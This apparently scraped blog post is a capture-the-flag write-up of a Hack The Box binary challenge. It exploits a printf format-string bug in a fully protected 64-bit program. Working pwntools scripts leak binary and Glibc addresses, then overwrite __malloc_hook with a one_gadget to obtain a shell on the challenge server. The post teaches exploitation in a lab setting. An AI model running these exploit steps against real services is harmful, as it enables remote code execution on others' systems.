

# Format

> **Source:** Originally published at https://7rocky.github.io/en/ctf/htb-challenges/pwn/format
> **Author:** Original author (personal blog / CTF team archive)
> **Retrieved:** 2026-07-13
> **Word count:** 2231
> **Images:** 4 embedded locally

---

Format | 7Rocky
-
-
-

#


Linux Exploitation Expert — HackTricks Training

Progress from binary exploitation fundamentals to advanced exploit development in Linux across user space, heap, ARM, kernel, and browser targets.View Course
×

Contents
- Reverse engineering
- Format String vulnerability
- Format String exploitation
- Leaking memory addresses
- Finding remote Glibc version
- Getting RCE
- Flag🍺  Buy me a beer

We are given a 64-bit binary called `format`:`
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled

```
`

## Reverse engineering


After executing it, we see that the program only echoes what we enter:`
```
$ ./format
asdf
asdf
fdsa
fdsa

```
`

Using Ghidra, we can reverse engineer the source code and see what the program is doing:`
```
int main(EVP_PKEY_CTX *param_1) {
  long canary;
  long in_FS_OFFSET;

  canary = *(long *) (in_FS_OFFSET + 0x28);

  init(param_1);
  echo();

  if (canary != *(long *) (in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }

  return 0;
}

```
`


The `main` function calls `echo`, which is the one responding with the same message we enter:`
```
void echo() {
  long in_FS_OFFSET;
  char data[264];
  long canary;

  canary = *(long *) (in_FS_OFFSET + 0x28);

  do {
    fgets(data, 256, stdin);
    printf(data);
  } while (true);
}

```
`


## Format String vulnerability


However, it is putting directly our input in `printf` as first parameter, so this is a clear Format String vulnerability.

Using this vulnerability we are able to leak values from the stack using formats like `%lx` (for hexadecimal values):`
```
$ ./format
%lx
7f3f0d7e4a03
%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.
7f3f0d7e4a03.0.7f3f0d705fd2.7ffe6cdfdd60.0.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.2e786c252e786c25.9800000000a.

```
`

Notice how `%lx` is replaced with a hexadecimal value on the server’s response. Also, if we send multiple formats, the position read from the stack is incremented, and we find our input string as well (`2e786c252e786c25` is `%lx.%lx.` in hexadecimal, little-endian format), at position 6. We can check that we control the stack from this position:`
```
$ ./format
AAAABBBB.%6$lx
AAAABBBB.4242424241414141
%7$lx...AAAABBBB
4242424241414141...AAAABBBB

```
`

In the above example we put `AAAABBBB` (8 bytes) at position 6, so using `%6$lx` will print that string in hexadecimal format. On the other hand, we used `%7$lx...` to fill position 6 and then `AAAABBBB` at position 7, so that `%7$lx` is replaced by `4242424241414141`.

Format String vulnerabilities also allow us to write arbitrary data into memory using format `%n`. This format stores the number of characters printed up to the format into the address referenced by the format. For instance, if we put an address in our first 8 bytes of payload, using `%6$n` right after will store the value `8` at that address. In order to store arbitrary values, we can make use of `%c`. For instance, `%256c` will be replaced by 256 white spaces.

## Format String exploitation


There are no more functions in the binary and we do not know which version of Glibc it is using. Moreover, PIE and Full RELRO are enabled, so first we must obtain the base address of the actual binary and the base address of Glibc.

### Leaking memory addresses


To bypass PIE, we must leak the address of some instruction of the binary, in order to compare it to its offset (obtained with Ghidra, GDB or `readelf`, for example) and then subtract those values.

Just for testing, I will disable ASLR so that all memory addresses are fix:`
```
# echo 0 | tee /proc/sys/kernel/randomize_va_space
0

```
`

Now, I will use a simple Python script to test the first 50 positions in the stack:`
```
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('format')


def get_process():
    if len(sys.argv) == 1:
        return elf.process()

    host, port = sys.argv[1].split(':')
    return remote(host, int(port))


def main():
    context.log_level = 'CRITICAL'

    for i in range(50):
        p = get_process()
        p.sendline(f'%{i + 1}$lx'.encode())
        print(i + 1, p.recv().decode().strip())


if __name__ == '__main__':
    main()

```
`
`
```
$ python3 solve.py
[*] './format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
1 7ffff7fa9a03
2 0
3 7ffff7ecafd2
4 7fffffffe5a0
5 0
6 a786c243625
7 58000000380
8 98000000980
9 98000000980
10 98000000980
11 98000000980
12 98000000980
13 98000000980
14 98000000980
15 98000000980
16 98000000980
17 98000000980
18 98000000980
19 98000000980
20 0
21 7ffff7faa5c0
22 0
23 7ffff7e4f525
24 0
25 7ffff7faa5c0
26 0
27 0
28 7ffff7fa64a0
29 7ffff7e4b53d
30 7ffff7faa5c0
31 7ffff7e41de5
32 5555555552d0
33 7fffffffe6b0
34 5555555550c0
35 7fffffffe7c0
36 0
37 55555555526d
38 7ffff7fae2e8
39 f271cac3db528500
40 7fffffffe6d0
41 5555555552b3
42 7fffffffe7c0
43 5808d96f04513c00
44 0
45 7ffff7de1083
46 7ffff7ffc620
47 7fffffffe7c8
48 100000000
49 555555555284
50 5555555552d0

```
`

From experience, I know that addresses that start with `555555555` are addresses within the binary, addresses that start with `7ffff7f` come from Glibc, and those that start with `7fffffff` are stack addresses.

Let’s use GDB to find what are some addresses for:`
```
$ gdb -q format
Reading symbols from format...
(No debugging symbols found in format)
gef➤  start
[+] Breaking at '0x1284'

```
``
```
gef➤  x 0x7ffff7fa9a03
0x7ffff7fa9a03 <_IO_2_1_stdin_+131>:    0x00000000
gef➤  x 0x7ffff7ecafd2
0x7ffff7ecafd2 <__GI___libc_read+18>:   0xf0003d48
gef➤  x 0x7ffff7e4f525
0x7ffff7e4f525 <_IO_default_setbuf+69>: 0x0ffff883
gef➤  x 0x7ffff7faa5c0
0x7ffff7faa5c0 <_IO_2_1_stderr_>:       0xfbad2086
gef➤  x 0x7ffff7fa64a0
0x7ffff7fa64a0 <_IO_file_jumps>:        0x00000000
gef➤  x 0x7ffff7e4b53d
0x7ffff7e4b53d <_IO_new_file_setbuf+13>:        0x74c08548
gef➤  x 0x7ffff7e41de5
0x7ffff7e41de5 <__GI__IO_setvbuf+261>:  0x48c03145
gef➤  x 0x7ffff7fae2e8
0x7ffff7fae2e8 <__exit_funcs_lock>:     0x00000000
gef➤  x 0x7ffff7de1083
0x7ffff7de1083 <__libc_start_main+243>: 0xb6e8c789
gef➤  x 0x7ffff7ffc620
0x7ffff7ffc620 <_rtld_global_ro>:       0x00000000
gef➤  x 0x5555555552d0
0x5555555552d0 <__libc_csu_init>:       0xfa1e0ff3
gef➤  x 0x5555555550c0
0x5555555550c0 <_start>:        0xfa1e0ff3
gef➤  x 0x55555555526d
0x55555555526d <init+117>:      0x458b4890
gef➤  x 0x5555555552b3
0x5555555552b3 <main+47>:       0x000000b8
gef➤  x 0x555555555284
0x555555555284 <main>:  0xfa1e0ff3

```
`

We have plenty of addresses to choose for both Glibc and the binary. For instance, let’s use position 21 (`_IO_2_1_stderr_`) for Glibc and position 49 (`main`) for the binary. Now, let’s find the offsets:`
```
$ ldd format
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7db8000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)

$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep _IO_2_2_stderr_
  1427: 00000000001ed5c0   224 OBJECT  GLOBAL DEFAULT   34 _IO_2_1_stderr_@@GLIBC_2.2.5

$ readelf -s format | grep main$
    67: 0000000000001284    74 FUNC    GLOBAL DEFAULT   16 main

```
`

At this point, we can compute the base addresses of Glibc and the binary subtracting the leaked values and the corresponding offsets:`
```
def main():
    p = get_process()

    p.sendline(b'%21$lx')
    _IO_2_1_stderr__addr = int(p.recvline().decode(), 16)
    log.info(f'Leaked _IO_2_1_stderr_ address: {hex(_IO_2_1_stderr__addr)}')

    p.sendline(b'%49$lx')
    main_addr = int(p.recvline().decode(), 16)
    log.info(f'Leaked main() address: {hex(main_addr)}')

    _IO_2_1_stderr__offset = 0x1ed5c0
    glibc_address = _IO_2_1_stderr__addr - _IO_2_1_stderr__offset
    log.info(f'Glibc base address: {hex(glibc_address)}')

    main_offset = 0x1284
    elf.address = main_addr - main_offset
    log.info(f'ELF base address: {hex(elf.address)}')

    p.interactive()

```
`
`
```
$ python3 solve.py
[*] './format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './format': pid 2797003
[*] Leaked _IO_2_1_stderr_ address: 0x7ffff7faa5c0
[*] Leaked main() address: 0x555555555284
[+] Glibc base address: 0x7ffff7dbd000
[+] ELF base address: 0x555555554000
[*] Switching to interactive mode
$

```
`

Since both base addresses end in `000`, we can believe that are correct. So we can enable ASLR again:`
```
# echo 2 | tee /proc/sys/kernel/randomize_va_space
2

```
`

Another way to leak an address within Glibc is to use the Global Offset Table (GOT) as in common ret2libc challenges (such as, Here’s a LIBC):`
```
    p.sendline(b'%7$sAAAA' + p64(elf.got.fgets))
    fgets_addr = u64(p.recv().split(b'AAAA')[0].ljust(8, b'\0'))
    log.info(f'Leaked fgets() address: {hex(fgets_addr)}')

```
`
`
```
$ python3 solve.py
[*] './format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './format': pid 2846855
[*] Leaked _IO_2_1_stderr_ address: 0x7f8238c865c0
[*] Leaked main() address: 0x562da7ed8284
[+] Glibc base address: 0x7f8238a99000
[+] ELF base address: 0x562da7ed7000
[*] Leaked fgets() address: 0x7f8238b1b630
[*] Switching to interactive mode
$

```
`

### Finding remote Glibc version


Let’s run the exploit in remote as is:`
```
$ python3 solve.py 167.172.52.59:31445
[*] './format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 167.172.52.59 on port 31445: Done
[*] Leaked _IO_2_1_stderr_ address: 0x7f583e826680
[*] Leaked main() address: 0x559ac055e284
[+] Glibc base address: 0x7f583e6390c0
[+] ELF base address: 0x559ac055d000
[*] Switching to interactive mode
$

```
`

We see that the base address of Glibc is not correct. We can use the last three hexadecimal digits of `_IO_2_1_stderr_` and `fgets` leaked addresses to find a matching Glibc version in libc.blukat.me (Glibc 2.27):



Now that we can download the correct Glibc version, we can use ``pwninit to patch the binary and use the remote Glibc version:`
```
$ pwninit --libc libc6_2.27-3ubuntu1_amd64.so --bin format --no-template
bin: format
libc: libc6_2.27-3ubuntu1_amd64.so

fetching linker
https://launchpad.net/ubuntu/+archive/primary/+files//libc6_2.27-3ubuntu1_amd64.deb
unstripping libc
https://launchpad.net/ubuntu/+archive/primary/+files//libc6-dbg_2.27-3ubuntu1_amd64.deb
setting ./ld-2.27.so executable
symlinking libc.so.6 -> libc6_2.27-3ubuntu1_amd64.so
copying format to format_patched
running patchelf on format_patched

```
`

At this point, we can use `format_patched` in our local environment as well.

### Getting RCE


Since the binary is fully protected, the way to obtain a shell will be with the arbitrary write primitive that we can get exploiting the Format String vulnerability.

A nice value to spawn a shell is a ``one_gadget shell, which is an address of Glibc that spawns a shell under certain conditions:`
```
$ one_gadget libc6_2.27-3ubuntu1_amd64.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```
`

There’s a function hook (`__malloc_hook`) that is called whenever `malloc` is called. When we want to print so much values using `printf`, this function will use `malloc` behind the scenes to allocate memory, so that way we can trigger the ``one_gadget shell if we modify `__malloc_hook` to hold that address:`
```
$ readelf -s libc6_2.27-3ubuntu1_amd64.so | grep __malloc_hook
  1132: 00000000003ebc30     8 OBJECT  WEAK   DEFAULT   34 __malloc_hook@@GLIBC_2.2.5
  6652: 00000000003ebc30     8 OBJECT  WEAK   DEFAULT   34 __malloc_hook

```
`

For that, we only need to require a lot of memory, for example using `"%100000c"`, so that `malloc` is called.

In order to craft the payload, ``pwntools has a great function called `fmtstr_payload`. We only need to tell the offset where we control values in the stack (6, we saw it at the beginning), and a mapping that holds the address where we want to write to and the value we want to write. Otherwise, a manual Format String exploitation using `%n` would have been much more tedious. You can find one example on my writeup for Rope machine (in x86) or in fermat-strings.

So, this is the last payload:`
```
    one_gadget_shell_offset = 0x4f322
    __malloc_hook_offset = 0x3ebc30

    one_gadget_shell_addr = glibc_address + one_gadget_shell_offset
    __malloc_hook_addr = glibc_address + __malloc_hook_offset

    p.sendline(fmtstr_payload(6, {__malloc_hook_addr: one_gadget_shell_addr}))
    p.recv()

    p.sendline(b'%10000000c')
    p.interactive()

```
`


We have a shell locally:`
```
$ python3 solve.py
[*] './format_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[+] Starting local process './format_patched': pid 2852164
[*] Leaked _IO_2_1_stderr_ address: 0x7fef51487680
[*] Leaked main() address: 0x55654d899284
[+] Glibc base address: 0x7fef5109b000
[+] ELF base address: 0x55654d898000
[*] Leaked fgets() address: 0x7fef51119b20
[*] Switching to interactive mode
$ ls
format        ld-2.27.so              libc.so.6
format_patched    libc6_2.27-3ubuntu1_amd64.so  solve.py

```
`

## Flag


And also remotely:`
```
$ python3 solve.py 167.172.52.59:31445
[*] './format_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[+] Opening connection to 167.172.52.59 on port 31445: Done
[*] Leaked _IO_2_1_stderr_ address: 0x7f796e4fa680
[*] Leaked main() address: 0x55d17f0be284
[+] Glibc base address: 0x7f796e10e000
[+] ELF base address: 0x55d17f0bd000
[*] Leaked fgets() address: 0x7f796e18cb20
[*] Switching to interactive mode
$ ls
flag.txt
format
run_challenge.sh
$ cat flag.txt
HTB{mall0c_h00k_f0r_th3_w1n!}

```
`

The full exploit can be found in here: ``solve.py.

Contents
- Reverse engineering
- Format String vulnerability
- Format String exploitation
- Leaking memory addresses
- Finding remote Glibc version
- Getting RCE
- Flag🍺  Buy me a beer
